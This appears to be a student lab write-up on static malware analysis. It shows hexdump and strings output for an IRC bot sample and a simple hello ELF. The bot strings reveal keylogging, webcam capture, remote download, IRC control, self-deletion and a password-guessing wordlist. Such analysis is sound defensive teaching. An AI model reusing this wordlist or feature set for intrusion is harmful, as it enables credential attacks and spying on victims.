  00035430  20 25 73 0d 0a 55 53 45  52 20 25 73 20 30 20 30  | %s..USER %s 0 0|
  00035440  20 3a 25 73 0d 0a 00 00  00 00 00 00 50 41 53 53  | :%s........PASS|
  00035450  20 25 73 0d 0a 00 00 00  68 63 6f 6e 00 00 00 00  | %s.....hcon....|
  00035460  68 74 74 70 63 6f 6e 00  00 00 00 00 5b 44 4f 57  |httpcon.....[DOW|
  00035470  4e 4c 4f 41 44 5d 3a 20  46 61 69 6c 65 64 20 74  |NLOAD]: Failed t|
  00035480  6f 20 73 74 61 72 74 20  74 72 61 6e 73 66 65 72  |o start transfer|
  00035490  20 74 68 72 65 61 64 2c  20 65 72 72 6f 72 3a 20  | thread, error: |
  000354a0  3c 25 64 3e 2e 00 00 00  00 00 00 00 00 00 00 00  |<%d>............|
  000354b0  00 00 00 00 5b 44 4f 57  4e 4c 4f 41 44 5d 3a 20  |....[DOWNLOAD]: |
  000354c0  44 6f 77 6e 6c 6f 61 64  69 6e 67 20 55 52 4c 3a  |Downloading URL:|
  000354d0  20 25 73 20 74 6f 3a 20  25 73 2e 00 00 00 00 00  | %s to: %s......|
\end{lstlisting}
...
\begin{lstlisting}[basicstyle=\tiny]
  00035780  5b 4b 45 59 4c 4f 47 5d  3a 20 4e 6f 20 6b 65 79  |[KEYLOG]: No key|
  00035790  20 6c 6f 67 67 65 72 20  74 68 72 65 61 64 20 66  | logger thread f|
  000357a0  6f 75 6e 64 2e 00 00 00  00 00 00 00 00 00 00 00  |ound............|
  000357b0  5b 4b 45 59 4c 4f 47 5d  3a 20 4b 65 79 20 6c 6f  |[KEYLOG]: Key lo|
  000357c0  67 67 65 72 20 73 74 6f  70 70 65 64 2e 20 28 25  |gger stopped. (%|
  000357d0  64 20 74 68 72 65 61 64  28 73 29 20 73 74 6f 70  |d thread(s) stop|
  000357e0  70 65 64 2e 29 00 00 00  00 00 00 00 00 00 00 00  |ped.)...........|
  000357f0  6f 66 66 00 5b 4b 45 59  4c 4f 47 5d 3a 20 46 61  |off.[KEYLOG]: Fa|
  00035800  69 6c 65 64 20 74 6f 20  73 74 61 72 74 20 6c 6f  |iled to start lo|
  00035810  67 67 69 6e 67 20 74 68  72 65 61 64 2c 20 65 72  |gging thread, er|
  00035820  72 6f 72 3a 20 3c 25 64  3e 2e 00 00 00 00 00 00  |ror: <%d>.......|
  00035830  00 00 00 00 00 00 00 00  5b 4b 45 59 4c 4f 47 5d  |........[KEYLOG]|
  00035840  3a 20 4b 65 79 20 6c 6f  67 67 65 72 20 61 63 74  |: Key logger act|
  00035850  69 76 65 2e 00 00 00 00  00 00 00 00 5b 4b 45 59  |ive.........[KEY|
  00035860  4c 4f 47 5d 3a 20 41 6c  72 65 61 64 79 20 72 75  |LOG]: Already ru|
  00035870  6e 6e 69 6e 67 2e 00 00  00 00 00 00 66 69 6c 65  |nning.......file|
  00035880  00 00 00 00 6f 6e 00 00  6b 65 79 6c 6f 67 00 00  |....on..keylog..|
  00035890  5b 48 54 54 50 44 5d 3a  20 46 61 69 6c 65 64 20  |[HTTPD]: Failed |
  000358a0  74 6f 20 73 74 61 72 74  20 73 65 72 76 65 72 20  |to start server |
  000358b0  74 68 72 65 61 64 2c 20  65 72 72 6f 72 3a 20 3c  |thread, error: <|
  000358c0  25 64 3e 2e 00 00 00 00  00 00 00 00 00 00 00 00  |%d>.............|
  000358d0  5b 48 54 54 50 44 5d 3a  20 53 65 72 76 65 72 20  |[HTTPD]: Server |
  000358e0  6c 69 73 74 65 6e 69 6e  67 20 6f 6e 20 49 50 3a  |listening on IP:|
  000358f0  20 25 73 3a 25 64 2c 20  44 69 72 65 63 74 6f 72  | %s:%d, Director|
  00035900  79 3a 20 25 73 5c 2e 00  00 00 00 00 00 00 00 00  |y: %s\..........|
  00035910  00 00 00 00 68 74 74 70  00 00 00 00 68 74 74 70  |....http....http|
  00035920  73 65 72 76 65 72 00 00  00 00 00 00 23 00 00 00  |server......#...|
  00035930  54 4f 50 49 43 00 00 00  5b 4d 41 49 4e 5d 3a 20  |TOPIC...[MAIN]: |
  00035940  4a 6f 69 6e 65 64 20 63  68 61 6e 6e 65 6c 3a 20  |Joined channel: |
  00035950  25 73 2e 00 00 00 00 00  00 00 00 00 33 35 33 00  |%s..........353.|
  00035960  4e 4f 54 49 43 45 20 25  73 20 3a 25 73 0d 0a 00  |NOTICE %s :%s...|
\end{lstlisting}
...
\begin{lstlisting}[basicstyle=\tiny]
  000364e0  0a 46 69 6c 65 3a 20 00  0a 4c 69 6e 65 3a 20 00  |.File: ..Line: .|
  000364f0  0a 0a 00 00 45 78 70 72  65 73 73 69 6f 6e 3a 20  |....Expression: |
  00036500  00 00 00 00 0a 0a 46 6f  72 20 69 6e 66 6f 72 6d  |......For inform|
  00036510  61 74 69 6f 6e 20 6f 6e  20 68 6f 77 20 79 6f 75  |ation on how you|
  00036520  72 20 70 72 6f 67 72 61  6d 20 63 61 6e 20 63 61  |r program can ca|
  00036530  75 73 65 20 61 6e 20 61  73 73 65 72 74 69 6f 6e  |use an assertion|
  00036540  0a 66 61 69 6c 75 72 65  2c 20 73 65 65 20 74 68  |.failure, see th|
  00036550  65 20 56 69 73 75 61 6c  20 43 2b 2b 20 64 6f 63  |e Visual C++ doc|
  00036560  75 6d 65 6e 74 61 74 69  6f 6e 20 6f 6e 20 61 73  |umentation on as|
  00036570  73 65 72 74 73 2e 00 00  2e 2e 2e 00 3c 70 72 6f  |serts.......<pro|
  00036580  67 72 61 6d 20 6e 61 6d  65 20 75 6e 6b 6e 6f 77  |gram name unknow|
  00036590  6e 3e 00 00 64 62 67 72  70 74 2e 63 00 00 00 00  |n>..dbgrpt.c....|
  000365a0  73 7a 55 73 65 72 4d 65  73 73 61 67 65 20 21 3d  |szUserMessage !=|
  000365b0  20 4e 55 4c 4c 00 00 00  28 22 69 6e 63 6f 6e 73  | NULL...("incons|
  000365c0  69 73 74 65 6e 74 20 49  4f 42 20 66 69 65 6c 64  |istent IOB field|
  000365d0  73 22 2c 20 73 74 72 65  61 6d 2d 3e 5f 70 74 72  |s", stream->_ptr|
  000365e0  20 2d 20 73 74 72 65 61  6d 2d 3e 5f 62 61 73 65  | - stream->_base|
  000365f0  20 3e 3d 20 30 29 00 00  5f 66 6c 73 62 75 66 2e  | >= 0).._flsbuf.|
  00036600  63 00 00 00 06 00 00 06  00 01 00 00 10 00 03 06  |c...............|
  00036610  00 06 02 10 04 45 45 45  05 05 05 05 05 35 30 00  |.....EEE.....50.|
  00036620  50 00 00 00 00 20 28 38  50 58 07 08 00 37 30 30  |P.... (8PX...700|
  00036630  57 50 07 00 00 20 20 08  00 00 00 00 08 60 68 60  |WP...  ......`h`|
  00036640  60 60 60 00 00 70 70 78  78 78 78 08 07 08 00 00  |```..ppxxxx.....|
  00036650  07 00 08 08 08 00 00 08  00 08 00 07 08 00 00 00  |................|
  00036660  28 00 6e 00 75 00 6c 00  6c 00 29 00 00 00 00 00  |(.n.u.l.l.).....|
  00036670  28 6e 75 6c 6c 29 00 00  6f 75 74 70 75 74 2e 63  |(null)..output.c|
  00036680  00 00 00 00 63 68 20 21  3d 20 5f 54 28 27 5c 30  |....ch != _T('\0|
  00036690  27 29 00 00 5f 66 72 65  65 62 75 66 2e 63 00 00  |').._freebuf.c..|
\end{lstlisting}

Here we can see lots of information, like usernames and passwords, code,
operations, a potential keylogger, etc.

and for the hello file;

\begin{lstlisting}[basicstyle=\tiny]
  00000000  7f 45 4c 46 02 01 01 00  00 00 00 00 00 00 00 00  |.ELF............|
  00000010  03 00 3e 00 01 00 00 00  60 10 00 00 00 00 00 00  |..>.....`.......|
  00000020  40 00 00 00 00 00 00 00  d8 41 00 00 00 00 00 00  |@........A......|
  00000030  00 00 00 00 40 00 38 00  0d 00 40 00 24 00 23 00  |....@.8...@.$.#.|
  00000040  06 00 00 00 04 00 00 00  40 00 00 00 00 00 00 00  |........@.......|
  00000050  40 00 00 00 00 00 00 00  40 00 00 00 00 00 00 00  |@.......@.......|
\end{lstlisting}
...
\begin{lstlisting}[basicstyle=\tiny]
  00003450  00 00 01 2f 75 73 72 2f  6c 69 62 2f 67 63 63 2f  |.../usr/lib/gcc/|
00003460  78 38 36 5f 36 34 2d 6c  69 6e 75 78 2d 67 6e 75  |x86_64-linux-gnu|
00003470  2f 39 2f 69 6e 63 6c 75  64 65 00 2f 75 73 72 2f  |/9/include./usr/|
00003480  69 6e 63 6c 75 64 65 2f  78 38 36 5f 36 34 2d 6c  |include/x86_64-l|
00003490  69 6e 75 78 2d 67 6e 75  2f 62 69 74 73 00 2f 75  |inux-gnu/bits./u|
000034a0  73 72 2f 69 6e 63 6c 75  64 65 2f 78 38 36 5f 36  |sr/include/x86_6|
000034b0  34 2d 6c 69 6e 75 78 2d  67 6e 75 2f 62 69 74 73  |4-linux-gnu/bits|
000034c0  2f 74 79 70 65 73 00 2f  75 73 72 2f 69 6e 63 6c  |/types./usr/incl|
000034d0  75 64 65 00 00 68 65 6c  6c 6f 2e 63 00 00 00 00  |ude..hello.c....|
000034e0  73 74 64 64 65 66 2e 68  00 01 00 00 74 79 70 65  |stddef.h....type|
000034f0  73 2e 68 00 02 00 00 73  74 72 75 63 74 5f 46 49  |s.h....struct_FI|
00003500  4c 45 2e 68 00 03 00 00  46 49 4c 45 2e 68 00 03  |LE.h....FILE.h..|
00003510  00 00 73 74 64 69 6f 2e  68 00 04 00 00 73 79 73  |..stdio.h....sys|
00003520  5f 65 72 72 6c 69 73 74  2e 68 00 02 00 00 00 05  |_errlist.h......|
00003530  0c 00 09 02 49 11 00 00  00 00 00 00 14 05 03 83  |....I...........|
00003540  05 0a bb 05 01 59 02 02  00 01 01 5f 49 4f 5f 62  |.....Y....._IO_b|
00003550  75 66 5f 65 6e 64 00 5f  6f 6c 64 5f 6f 66 66 73  |uf_end._old_offs|
00003560  65 74 00 47 4e 55 20 43  31 37 20 39 2e 34 2e 30  |et.GNU C17 9.4.0|
00003570  20 2d 6d 74 75 6e 65 3d  67 65 6e 65 72 69 63 20  | -mtune=generic |
00003580  2d 6d 61 72 63 68 3d 78  38 36 2d 36 34 20 2d 67  |-march=x86-64 -g|
00003590  20 2d 66 61 73 79 6e 63  68 72 6f 6e 6f 75 73 2d  | -fasynchronous-|
000035a0  75 6e 77 69 6e 64 2d 74  61 62 6c 65 73 20 2d 66  |unwind-tables -f|
000035b0  73 74 61 63 6b 2d 70 72  6f 74 65 63 74 6f 72 2d  |stack-protector-|
000035c0  73 74 72 6f 6e 67 20 2d  66 73 74 61 63 6b 2d 63  |strong -fstack-c|
000035d0  6c 61 73 68 2d 70 72 6f  74 65 63 74 69 6f 6e 20  |lash-protection |
000035e0  2d 66 63 66 2d 70 72 6f  74 65 63 74 69 6f 6e 00  |-fcf-protection.|
000035f0  2f 68 6f 6d 65 2f 72 65  6d 6e 75 78 2f 6c 61 62  |/home/remnux/lab|
00003600  31 2f 63 68 31 00 73 79  73 5f 6e 65 72 72 00 5f  |1/ch1.sys_nerr._|
00003610  49 4f 5f 73 61 76 65 5f  65 6e 64 00 73 68 6f 72  |IO_save_end.shor|
00003620  74 20 69 6e 74 00 73 69  7a 65 5f 74 00 5f 49 4f  |t int.size_t._IO|
00003630  5f 77 72 69 74 65 5f 70  74 72 00 5f 66 6c 61 67  |_write_ptr._flag|
00003640  73 00 5f 49 4f 5f 62 75  66 5f 62 61 73 65 00 5f  |s._IO_buf_base._|
00003650  6d 61 72 6b 65 72 73 00  5f 49 4f 5f 72 65 61 64  |markers._IO_read|
00003660  5f 65 6e 64 00 5f 66 72  65 65 72 65 73 5f 62 75  |_end._freeres_bu|
00003670  66 00 73 74 64 65 72 72  00 5f 6c 6f 63 6b 00 6c  |f.stderr._lock.l|
00003680  6f 6e 67 20 69 6e 74 00  5f 63 75 72 5f 63 6f 6c  |ong int._cur_col|
00003690  75 6d 6e 00 5f 49 4f 5f  46 49 4c 45 00 75 6e 73  |umn._IO_FILE.uns|
000036a0  69 67 6e 65 64 20 63 68  61 72 00 5f 49 4f 5f 6d  |igned char._IO_m|
000036b0  61 72 6b 65 72 00 5f 73  68 6f 72 74 62 75 66 00  |arker._shortbuf.|
000036c0  5f 49 4f 5f 77 72 69 74  65 5f 62 61 73 65 00 5f  |_IO_write_base._|
000036d0  75 6e 75 73 65 64 32 00  5f 49 4f 5f 72 65 61 64  |unused2._IO_read|
000036e0  5f 70 74 72 00 73 68 6f  72 74 20 75 6e 73 69 67  |_ptr.short unsig|
000036f0  6e 65 64 20 69 6e 74 00  6d 61 69 6e 00 5f 66 72  |ned int.main._fr|
00003700  65 65 72 65 73 5f 6c 69  73 74 00 5f 5f 70 61 64  |eeres_list.__pad|
00003710  35 00 5f 49 4f 5f 63 6f  64 65 63 76 74 00 6c 6f  |5._IO_codecvt.lo|
00003720  6e 67 20 75 6e 73 69 67  6e 65 64 20 69 6e 74 00  |ng unsigned int.|
00003730  5f 49 4f 5f 77 72 69 74  65 5f 65 6e 64 00 5f 5f  |_IO_write_end.__|
00003740  6f 66 66 36 34 5f 74 00  5f 5f 6f 66 66 5f 74 00  |off64_t.__off_t.|
00003750  5f 63 68 61 69 6e 00 5f  49 4f 5f 77 69 64 65 5f  |_chain._IO_wide_|
00003760  64 61 74 61 00 5f 49 4f  5f 62 61 63 6b 75 70 5f  |data._IO_backup_|
00003770  62 61 73 65 00 73 74 64  69 6e 00 5f 66 6c 61 67  |base.stdin._flag|
00003780  73 32 00 5f 6d 6f 64 65  00 5f 49 4f 5f 72 65 61  |s2._mode._IO_rea|
00003790  64 5f 62 61 73 65 00 5f  76 74 61 62 6c 65 5f 6f  |d_base._vtable_o|
000037a0  66 66 73 65 74 00 5f 49  4f 5f 73 61 76 65 5f 62  |ffset._IO_save_b|
000037b0  61 73 65 00 73 79 73 5f  65 72 72 6c 69 73 74 00  |ase.sys_errlist.|
000037c0  5f 66 69 6c 65 6e 6f 00  68 65 6c 6c 6f 2e 63 00  |_fileno.hello.c.|
000037d0  73 74 64 6f 75 74 00 5f  49 4f 5f 6c 6f 63 6b 5f  |stdout._IO_lock_|
000037e0  74 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |t...............|
000037f0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00003800  00 00 00 00 03 00 01 00  18 03 00 00 00 00 00 00  |................|
00003810  00 00 00 00 00 00 00 00  00 00 00 00 03 00 02 00  |................|
00003820  38 03 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |8...............|
00003830  00 00 00 00 03 00 03 00  58 03 00 00 00 00 00 00  |........X.......|
\end{lstlisting}
...
\begin{lstlisting}[basicstyle=\tiny]
  00003e10  00 00 00 00 00 00 00 00  bc 01 00 00 12 00 10 00  |................|
00003e20  49 11 00 00 00 00 00 00  1b 00 00 00 00 00 00 00  |I...............|
00003e30  c1 01 00 00 11 02 19 00  10 40 00 00 00 00 00 00  |.........@......|
00003e40  00 00 00 00 00 00 00 00  cd 01 00 00 20 00 00 00  |............ ...|
00003e50  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00003e60  e7 01 00 00 22 00 00 00  00 00 00 00 00 00 00 00  |...."...........|
00003e70  00 00 00 00 00 00 00 00  00 63 72 74 73 74 75 66  |.........crtstuf|
00003e80  66 2e 63 00 64 65 72 65  67 69 73 74 65 72 5f 74  |f.c.deregister_t|
00003e90  6d 5f 63 6c 6f 6e 65 73  00 5f 5f 64 6f 5f 67 6c  |m_clones.__do_gl|
00003ea0  6f 62 61 6c 5f 64 74 6f  72 73 5f 61 75 78 00 63  |obal_dtors_aux.c|
00003eb0  6f 6d 70 6c 65 74 65 64  2e 38 30 36 31 00 5f 5f  |ompleted.8061.__|
00003ec0  64 6f 5f 67 6c 6f 62 61  6c 5f 64 74 6f 72 73 5f  |do_global_dtors_|
00003ed0  61 75 78 5f 66 69 6e 69  5f 61 72 72 61 79 5f 65  |aux_fini_array_e|
00003ee0  6e 74 72 79 00 66 72 61  6d 65 5f 64 75 6d 6d 79  |ntry.frame_dummy|
00003ef0  00 5f 5f 66 72 61 6d 65  5f 64 75 6d 6d 79 5f 69  |.__frame_dummy_i|
00003f00  6e 69 74 5f 61 72 72 61  79 5f 65 6e 74 72 79 00  |nit_array_entry.|
00003f10  68 65 6c 6c 6f 2e 63 00  5f 5f 46 52 41 4d 45 5f  |hello.c.__FRAME_|
00003f20  45 4e 44 5f 5f 00 5f 5f  69 6e 69 74 5f 61 72 72  |END__.__init_arr|
00003f30  61 79 5f 65 6e 64 00 5f  44 59 4e 41 4d 49 43 00  |ay_end._DYNAMIC.|
00003f40  5f 5f 69 6e 69 74 5f 61  72 72 61 79 5f 73 74 61  |__init_array_sta|
00003f50  72 74 00 5f 5f 47 4e 55  5f 45 48 5f 46 52 41 4d  |rt.__GNU_EH_FRAM|
00003f60  45 5f 48 44 52 00 5f 47  4c 4f 42 41 4c 5f 4f 46  |E_HDR._GLOBAL_OF|
00003f70  46 53 45 54 5f 54 41 42  4c 45 5f 00 5f 5f 6c 69  |FSET_TABLE_.__li|
00003f80  62 63 5f 63 73 75 5f 66  69 6e 69 00 5f 49 54 4d  |bc_csu_fini._ITM|
00003f90  5f 64 65 72 65 67 69 73  74 65 72 54 4d 43 6c 6f  |_deregisterTMClo|
00003fa0  6e 65 54 61 62 6c 65 00  70 75 74 73 40 40 47 4c  |neTable.puts@@GL|
00003fb0  49 42 43 5f 32 2e 32 2e  35 00 5f 65 64 61 74 61  |IBC_2.2.5._edata|
00003fc0  00 5f 5f 6c 69 62 63 5f  73 74 61 72 74 5f 6d 61  |.__libc_start_ma|
00003fd0  69 6e 40 40 47 4c 49 42  43 5f 32 2e 32 2e 35 00  |in@@GLIBC_2.2.5.|
00003fe0  5f 5f 64 61 74 61 5f 73  74 61 72 74 00 5f 5f 67  |__data_start.__g|
00003ff0  6d 6f 6e 5f 73 74 61 72  74 5f 5f 00 5f 5f 64 73  |mon_start__.__ds|
00004000  6f 5f 68 61 6e 64 6c 65  00 5f 49 4f 5f 73 74 64  |o_handle._IO_std|
00004010  69 6e 5f 75 73 65 64 00  5f 5f 6c 69 62 63 5f 63  |in_used.__libc_c|
00004020  73 75 5f 69 6e 69 74 00  5f 5f 62 73 73 5f 73 74  |su_init.__bss_st|
00004030  61 72 74 00 6d 61 69 6e  00 5f 5f 54 4d 43 5f 45  |art.main.__TMC_E|
00004040  4e 44 5f 5f 00 5f 49 54  4d 5f 72 65 67 69 73 74  |ND__._ITM_regist|
00004050  65 72 54 4d 43 6c 6f 6e  65 54 61 62 6c 65 00 5f  |erTMCloneTable._|
00004060  5f 63 78 61 5f 66 69 6e  61 6c 69 7a 65 40 40 47  |_cxa_finalize@@G|
00004070  4c 49 42 43 5f 32 2e 32  2e 35 00 00 2e 73 79 6d  |LIBC_2.2.5...sym|
00004080  74 61 62 00 2e 73 74 72  74 61 62 00 2e 73 68 73  |tab..strtab..shs|
00004090  74 72 74 61 62 00 2e 69  6e 74 65 72 70 00 2e 6e  |trtab..interp..n|
000040a0  6f 74 65 2e 67 6e 75 2e  70 72 6f 70 65 72 74 79  |ote.gnu.property|
000040b0  00 2e 6e 6f 74 65 2e 67  6e 75 2e 62 75 69 6c 64  |..note.gnu.build|
000040c0  2d 69 64 00 2e 6e 6f 74  65 2e 41 42 49 2d 74 61  |-id..note.ABI-ta|
000040d0  67 00 2e 67 6e 75 2e 68  61 73 68 00 2e 64 79 6e  |g..gnu.hash..dyn|
000040e0  73 79 6d 00 2e 64 79 6e  73 74 72 00 2e 67 6e 75  |sym..dynstr..gnu|
000040f0  2e 76 65 72 73 69 6f 6e  00 2e 67 6e 75 2e 76 65  |.version..gnu.ve|
00004100  72 73 69 6f 6e 5f 72 00  2e 72 65 6c 61 2e 64 79  |rsion_r..rela.dy|
00004110  6e 00 2e 72 65 6c 61 2e  70 6c 74 00 2e 69 6e 69  |n..rela.plt..ini|
00004120  74 00 2e 70 6c 74 2e 67  6f 74 00 2e 70 6c 74 2e  |t..plt.got..plt.|
00004130  73 65 63 00 2e 74 65 78  74 00 2e 66 69 6e 69 00  |sec..text..fini.|
00004140  2e 72 6f 64 61 74 61 00  2e 65 68 5f 66 72 61 6d  |.rodata..eh_fram|
00004150  65 5f 68 64 72 00 2e 65  68 5f 66 72 61 6d 65 00  |e_hdr..eh_frame.|
00004160  2e 69 6e 69 74 5f 61 72  72 61 79 00 2e 66 69 6e  |.init_array..fin|
00004170  69 5f 61 72 72 61 79 00  2e 64 79 6e 61 6d 69 63  |i_array..dynamic|
00004180  00 2e 64 61 74 61 00 2e  62 73 73 00 2e 63 6f 6d  |..data..bss..com|
00004190  6d 65 6e 74 00 2e 64 65  62 75 67 5f 61 72 61 6e  |ment..debug_aran|
000041a0  67 65 73 00 2e 64 65 62  75 67 5f 69 6e 66 6f 00  |ges..debug_info.|
000041b0  2e 64 65 62 75 67 5f 61  62 62 72 65 76 00 2e 64  |.debug_abbrev..d|
000041c0  65 62 75 67 5f 6c 69 6e  65 00 2e 64 65 62 75 67  |ebug_line..debug|
000041d0  5f 73 74 72 00 00 00 00  00 00 00 00 00 00 00 00  |_str............|
000041e0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
00004210  00 00 00 00 00 00 00 00  1b 00 00 00 01 00 00 00  |................|
00004220  02 00 00 00 00 00 00 00  18 03 00 00 00 00 00 00  |................|
00004230  18 03 00 00 00 00 00 00  1c 00 00 00 00 00 00 00  |................|
00004240  00 00 00 00 00 00 00 00  01 00 00 00 00 00 00 00  |................|
00004250  00 00 00 00 00 00 00 00  23 00 00 00 07 00 00 00  |........#.......|
00004260  02 00 00 00 00 00 00 00  38 03 00 00 00 00 00 00  |........8.......|
00004270  38 03 00 00 00 00 00 00  20 00 00 00 00 00 00 00  |8....... .......|
00004280  00 00 00 00 00 00 00 00  08 00 00 00 00 00 00 00  |................|
00004290  00 00 00 00 00 00 00 00  36 00 00 00 07 00 00 00  |........6.......|
000042a0  02 00 00 00 00 00 00 00  58 03 00 00 00 00 00 00  |........X.......|
000042b0  58 03 00 00 00 00 00 00  24 00 00 00 00 00 00 00  |X.......$.......|
000042c0  00 00 00 00 00 00 00 00  04 00 00 00 00 00 00 00  |................|
000042d0  00 00 00 00 00 00 00 00  49 00 00 00 07 00 00 00  |........I.......|
\end{lstlisting}

Here we can see that it is an ELF file, was made from hello.c with gcc, has IO operations, etc.

\subsection{strings command}

The \lstinline|strings| command prints the sequences of printable characters in files.

For the lab
\lstinline|ircbot.exe| file, the output (truncated) is the following;

\begin{lstlisting}[basicstyle=\tiny]
!This program cannot be run in DOS mode.
Rich
.text
`.rdata
@.data
.idata
.reloc
DSVW
h,@C
TSVW
Ph@@C
(_^[
Y_^[
PSVW
hh@C
\end{lstlisting}
...
\begin{lstlisting}[basicstyle=\tiny]
-[Alias List]-
[%.2d-%.2d-%4d %.2d:%.2d:%.2d] %s
-[Logs]-
[LOGS]: Cleared.
[LOG]: List complete.
[LOG]: Begin
DISPLAY
Window
 n;^
Qkkbal
i]Wb
9a&g
MGiI
wn>Jj
#.zf
+o*7
[DOWNLOAD]: Bad URL, or DNS Error: %s.
[DOWNLOAD]: Update failed: Error executing file: %s.
[DOWNLOAD]: Downloaded %.1fKB to %s @ %.1fKB/sec. Updating.
[DOWNLOAD]: Opened: %s.
open
[DOWNLOAD]: Downloaded %.1f KB to %s @ %.1f KB/sec.
[DOWNLOAD]: CRC Failed (%d != %d).
[DOWNLOAD]: Filesize is incorrect: (%d != %d).
[DOWNLOAD]: Update: %s (%dKB transferred).
[DOWNLOAD]: File download: %s (%dKB transferred).
[DOWNLOAD]: Couldn't open file: %s.
Cdrom
Network
Disk
Invalid
Unknown
%sKB
failed
[MAIN]: %s Drive (%s): %s total, %s free, %s available.
[MAIN]: %s Drive (%s): Failed to stat, device not ready.
[HTTPD]: Error: server failed, returned: <%d>.
GET
HTTP/1.0 200 OK
Server: myBot
Cache-Control: no-cache,no-store,max-age=0
pragma: no-cache
Content-Type: %s
Content-Length: %i
Accept-Ranges: bytes
Date: %s %s GMT
Last-Modified: %s %s GMT
Expires: %s %s GMT
Connection: close
HTTP/1.0 200 OK
Server: myBot
Cache-Control: no-cache,no-store,max-age=0
pragma: no-cache
Content-Type: %s
Accept-Ranges: bytes
Date: %s %s GMT
Last-Modified: %s %s GMT
\end{lstlisting}
...
\begin{lstlisting}[basicstyle=\tiny]
  </HTML>
  PRIVMSG %s :Found %s Files and %s Directories
  %-31s  %-21s (%i bytes)
  </TD>
  <TD WIDTH="%d"><CODE>%s</CODE></TD>
  <TD WIDTH="%d" ALIGN="right"><CODE>%dk</CODE></TD>
  </TR>
  "><CODE>%s</CODE></A>
  "><CODE>%.30s&gt;</CODE></A>
  PRIVMSG %s :%-31s  %-21s (%s bytes)
  %-31s  %-21s
  </TD>
  <TD WIDTH="%d"><CODE>%s</CODE></TD>
  <TD WIDTH="%d" ALIGN="right"><CODE>-</CODE></TD>
  </TR>
  "><CODE>%s/</CODE></A>
  "><CODE>%.29s&gt;/</CODE></A>
  %s%s/
  <TR>
  <TD WIDTH="%d"><A HREF="
  PRIVMSG %s :%-31s  %-21s
  <%s>
  %2.2d/%2.2d/%4d  %2.2d:%2.2d %s
  <TR>
  <TD COLSPAN="3"><A HREF="%s"><CODE>Parent Directory</CODE></A></TD>
  </TR>
  Searching for: %s
  <TR>
  <TD COLSPAN="3"><HR></TD>
  </TR>
  <TR>
  <TD WIDTH="%d"><CODE>Name</CODE></TD>
  <TD WIDTH="%d"><CODE>Last Modified</CODE></TD>
  <TD WIDTH="%d" ALIGN="right"><CODE>Size</CODE></TD>
  </TR>
  <H1>Index of %s</H1>
  <TABLE BORDER="0">
  <HTML>
  <HEAD>
  <TITLE>Index of %s</TITLE>
  </HEAD>
  <BODY>
  PRIVMSG %s :Searching for: %s
  %s %s HTTP/1.1
  Referer: %s
  Host: %s
  Connection: close
  Sending PRIVMSG!!!
  %s %s :%s
  PRIVMSG
  NOTICE
  [KEYLOG]: %s
  [%d-%d-%d %d:%d:%d] %s
  %s (Return) (%s)
  %s (Buffer full) (%s)
  %s (Changed Windows: %s)
  capGetDriverDescriptionA
  capCreateCaptureWindowA
  avicap32.dll
  SQLDisconnect
  SQLFreeHandle
  SQLAllocHandle
  SQLExecDirect
  SQLSetEnvAttr
  SQLDriverConnect
  odbc32.dll
  SHChangeNotify
  ShellExecuteA
  shell32.dll
  WNetCancelConnection2W
  WNetCancelConnection2A
  WNetAddConnection2W
  WNetAddConnection2A
  mpr.dll
  DeleteIpNetEntry
  GetIpNetTable
  iphlpapi.dll
  DnsFlushResolverCacheEntry_A
  DnsFlushResolverCache
  dnsapi.dll
  NetMessageBufferSend
  NetUserGetInfo
  NetUserEnum
  NetUserDel
  NetUserAdd
  NetRemoteTOD
  NetApiBufferFree
  NetScheduleJobAdd
  NetShareEnum
  NetShareDel
  NetShareAdd
  netapi32.dll
  IcmpSendEcho
\end{lstlisting}
...
\begin{lstlisting}[basicstyle=\tiny]
  Gdi32.dll failed. <%d>
  Advapi32.dll failed. <%d>
  User32.dll failed. <%d>
  Kernel32.dll failed. <%d>
  intranet
  main
  winpass
  blank
  office
  control
  nokia
  siemens
  compaq
  dell
  cisco
  orainstall
  sqlpassoainstall
  db1234
  databasepassword
  data
  databasepass
  dbpassword
  dbpass
  access
  domainpassword
  domainpass
  domain
  hello
  hell
  slut
  bitch
  fuck
  exchange
  backup
  technical
  loginpass
  login
  mary
  katie
  kate
  george
  eric
  chris
  neil
  brian
  susan
  luke
  peter
  john
  mike
  bill
  fred
  win2000
  winnt
  winxp
  win2k
  win98
  windows
  oeminstall
  oemuser
  user
  homeuser
  home
  accounting
  accounts
  internet
  outlook
  mail
  qwerty
  null
  server
  system
  changeme
\end{lstlisting}
...
\begin{lstlisting}[basicstyle=\tiny]
  :repeat
  del "%%1"
  if exist "%%1" goto repeat
  del "%s"
  %sdel.bat
  [FLUSHDNS]: Not supported by this system.
  [FLUSHDNS]: ARP cache is empty.
  [FLUSHDNS]: Unable to allocation ARP cache.
  [FLUSHDNS]: Error getting ARP cache: <%d>.
  %d.%d.%d.%d
   %s (%d)
  SeDebugPrivilege
  [PROC]: Process list failed.
  [PROC]: Process list completed.
  [PROC]: Listing processes:
  [MAIN]: Connected to %s.
  NICK %s
  USER %s 0 0 :%s
  PASS %s
  hcon
  httpcon
  [DOWNLOAD]: Failed to start transfer thread, error: <%d>.
  [DOWNLOAD]: Downloading URL: %s to: %s.
  dlz0r
  d0wnl04d
  [CAPTURE]: Invalid parameters for amateur video capture.
  [CAPTURE]: Error while capturing amateur video from webcam.
  [CAPTURE]: Amateur video saved to: %s.
  video
  [CAPTURE]: Invalid parameters for webcam capture.
  [CAPTURE]: Error while capturing from webcam.
  [CAPTURE]: Webcam capture saved to: %s.
  frame
  [CAPTURE]: Driver list complete.
  [CAPTURE]: Driver #%d - %s - %s.
  drivers
  [CAPTURE]: No filename specified for screen capture.
  [CAPTURE]: Error while capturing screen.
  [CAPTURE]: Screen capture saved to: %s.
  screen
  capture
  [KEYLOG]: No key logger thread found.
  [KEYLOG]: Key logger stopped. (%d thread(s) stopped.)
  [KEYLOG]: Failed to start logging thread, error: <%d>.
  [KEYLOG]: Key logger active.
  [KEYLOG]: Already running.
  file
  keylog
  [HTTPD]: Failed to start server thread, error: <%d>.
  [HTTPD]: Server listening on IP: %s:%d, Directory: %s\.
  http
  httpserver
  TOPIC
  [MAIN]: Joined channel: %s.
  NOTICE %s :%s
  [MAIN]: User %s logged out.
  KICK
  NICK %s
  MODE %s +i
  USERHOST %s
  JOIN %s %s
  PONG %s
  PING
  KBOT5
  YEAH
  %s%i
  [%s]|
  [%d]%s
  %d. %s
